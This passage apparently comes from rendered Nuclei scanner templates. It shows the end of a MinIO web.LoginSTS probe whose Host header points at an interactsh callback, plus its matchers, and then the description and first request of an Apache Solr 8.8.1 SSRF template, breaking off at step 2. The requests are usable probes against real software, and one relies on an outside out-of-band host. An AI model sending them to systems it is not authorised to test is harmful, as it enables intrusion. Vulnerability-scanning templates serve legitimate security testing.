 ```
POST /minio/webrpc HTTP/1.1
Host: {{interactsh-url}}
Content-Type: application/json
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/49.0.2656.18 Safari/537.36
Content-Length: 76

{"id":1,"jsonrpc":"2.0","params":{"token":  "Test"},"method":"web.LoginSTS"}

```

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

**Type - word**

- words
  1. We encountered an internal error

---

# Apache Solr \<=8.8.1 - Server-Side Request Forgery

## Description

- Apache Solr versions 8.8.1 and prior contain a server-side request forgery vulnerability. The ReplicationHandler (normally registered at "/replication" under a Solr core) in Apache Solr has a "masterUrl" (also "leaderUrl" alias) parameter that is used to designate another ReplicationHandler on another Solr core to replicate index data into the local core. To prevent a SSRF vulnerability, Solr ought to check these parameters against a similar configuration it uses for the "shards" parameter.
- severity - critical
- tags - cve,cve2021,apache,solr,ssrf

## Requests

### Step - 1

```
GET /solr/admin/cores?wt=json HTTP/1.1
Host: {{Hostname}}
Accept-Language: en
Connection: close

```

### Step - 2

